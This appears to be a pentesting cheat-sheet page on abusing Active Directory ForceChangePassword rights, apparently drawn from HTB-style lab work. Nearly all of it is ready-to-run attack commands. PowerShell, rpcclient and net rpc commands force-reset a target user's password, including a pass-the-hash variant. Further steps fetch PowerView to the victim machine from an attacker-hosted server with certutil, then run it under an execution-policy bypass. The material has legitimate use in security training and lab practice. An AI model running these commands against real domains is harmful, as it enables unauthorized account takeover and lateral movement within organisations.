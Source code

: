 # ForceChangePassword rights

This abuse can be carried out when controlling an object that has a `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` over the target user.



<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## PowerShell

{% code overflow="wrap" %}
```powershell
$userIdentity = 'CN=Michael Williams,CN=Users,DC=administrator,DC=htb'

Set-ADAccountPassword -Identity $userIdentity -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "Password123!" -Force)
```
{% endcode %}



## RPC&#x20;

<pre class="language-bash" data-title="rpcclient"><code class="lang-bash">rpcclient -U DOMAIN.COM/USER DC_IP

<strong>setuserinfo2 USER_TO_CHANGE_PASS 23 'NewPassword123!'
</strong></code></pre>

{% code title="Net" overflow="wrap" %}
```bash
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"

# Pass-the-Hash
pth-net rpc password "$TargetUser" -U "$DOMAIN"/"$USER"%"ffffffffffffffffffffffffffffffff":"$NT_HASH" -S "$DC_HOST"
```
{% endcode %}







## PowerView

Import powerview

{% code title="transfer PowerView" overflow="wrap" %}
```bash
# attack machine
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1
python3 -m http.server 80

# target machine windows
certutil -urlcache -f http://IP/PowerView.ps1 PowerView.ps1
```
{% endcode %}

{% code title="Import PowerView" %}
```powershell
powershell -ep bypass
. .\PowerView.ps1
```
{% endcode %}



Now we can force change the micheal's password.

{% code title="Create Password" overflow="wrap" %}
```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USER', $SecPassword)

```
{% endcode %}

{% code title="Convert pswd in secure string" %}
```powershell
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```
{% endcode %}

{% code title="Set password to user" overflow="wrap" %}
```powershell
Set-DomainUserPassword -Identity <USER> -AccountPassword $UserPassword -Credential $Cred
```
{% endcode %}



